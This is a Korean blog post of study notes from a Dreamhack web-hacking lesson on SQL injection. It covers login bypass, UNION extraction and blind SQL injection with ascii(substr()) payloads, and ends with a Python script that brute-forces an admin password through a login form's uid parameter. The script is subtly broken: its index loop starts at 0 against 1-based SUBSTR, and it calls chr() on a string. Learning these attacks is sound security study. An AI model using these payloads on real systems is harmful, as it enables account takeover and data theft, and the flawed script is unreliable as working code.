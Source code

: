 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (2) : Serverside"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# Web Hacking - SQL Injection (2)

-  [x] Simple SQL Injection
-  [x] Bline SQL Injection

## ServerSide : SQL Injection
Injection : 이용자의 입력값이 애플리케이션의 처리 과정에서 구조 또는 문법적인 데이터로 해석되어 발생하는 취약점

### SQL Injection
SQL은 DBMS에 데이터를 질의하는 언어로, 웹 서비스는 이용자의 입력(로그인 시에 ID/PW, 게시글의 제목과 내용)을 SQL 구문에 포함하여 요청하는 경우가 있다. 아래는 로그인 시 애플리케이션이 DBMS에 질의하는 퀴리의 예시이며, 사용자가 입력한 id와 pw가 뭐리문에 포함되어있는 것을 알 수 있다. 이처럼 SQL에 이용자가 임의 문자열을 삽입하는 행위를 SQL Injection이라 하며, 이 때 우리는 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.

```sql
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='dreamhack' and user_pw='password': user_id 컬럼이 dreamhack이고, user_pw 컬럼이 password인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 dreamhack이고, 비밀번호가 password인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```
<br><Br>
아래의 쿼리에서는 user_pw 조건문이 사라져있으며, 이러한 경우 비밀번호의 대조 없이 id만으로 계정에 로그인이 가능하다

```sql
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='admin': user_id 컬럼이 admin인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 admin인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='admin'
```

#### Simple SQL Injection
Union Operator : [link](https://www.w3schools.com/sql/sql_union.asp)<br>
SQL에서 Union은 두 개 이상의 result-set을 결합하는 역할을 한다. 기존의 코드는 user_table에서 uid의 값만 select하기에, SQL을 실행했을 때, uid의 값만을 받아올 수 있다. 따라서, union을 사용하여 upw를 함께 받아오는 코드를 작성한 후, 후의 코드를 --를 통해 주석처리 해주었다.
<br><Br>
<img src = "/images/webbackground/8.png"><br><Br>
결과<br><Br>
<img src = "/images/webbackground/9.png">

#### Blind SQL Injection
아래의 예시와 같이, 스무고개와 유사한 방식으로 데이터를 알아낼 수 있다. DBMS가 답변 가능한 형태로 질문하며, 질의 결과를 이용자가 직접 화면에서 확인하지 못할 때, 참과 거짓의 반환 결과로 데이터를 획득한다

1. Question #1. dreamhack 계정의 비밀번호 첫 번째 글자는 'x' 인가요?<Br>
Answer. 아닙니다

2. Question #2. dreamhack 계정의 비밀번호 첫 번째 글자는 'p' 인가요?<Br>
Answer. 맞습니다 (첫 번째 글자 = p)

3. Question #3. dreamhack 계정의 비밀번호 두 번째 글자는 'y' 인가요?<Br>
Answer. 아닙니다.

4. Question #4. dreamhack 계정의 비밀번호 두 번째 글자는 'a'인가요?<Br>
Answer. 맞습니다. (두 번째 글자 = a)

<br><br>
예시 코드

```sql
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's'')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True 
```

---

Blind SQL Injection은 한 바이트씩 비교하기 때문에 다른 공격에 비해 많은 시간을 들여야 하며, 이를 해결하기 위해서는 공격을 자동화하는 스크립트를 작성해야 한다. 

**request 모듈 GET 예제 코드**

```python
import requests
url = 'https://dreamhack.io/' # 요청 보낼 url
headers = { # 요청 헤더
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = { # 보낼 파라미터 변수 (key-value 형식)
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

**request 모듈 POST 예제 코드**

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

---

Blind SQL Injection으로 비밀번호를 알아내는 경우, 알파벳과 숫자, 특수문자를 모두 포함한 범위를 지정해야한다. 아래는 이를 고려하여 작성한 스크립트로, 비밀번호에 포함되는 모든 문자를 string을 사용하여 생성하고, 모든 문자를 한 바이트씩 비교하는 반복문을 작성한다. 반복문 실행 중 반환 결과가 참일 경우 Login success 문자열을 찾고, 해당 결과를 반환한 문자를 password에 저장한다. 이 작업이 끝나면 비밀번호를 알아낼 수 있다.

```python
#!/usr/bin/python3
import requests
import string
url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}
tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```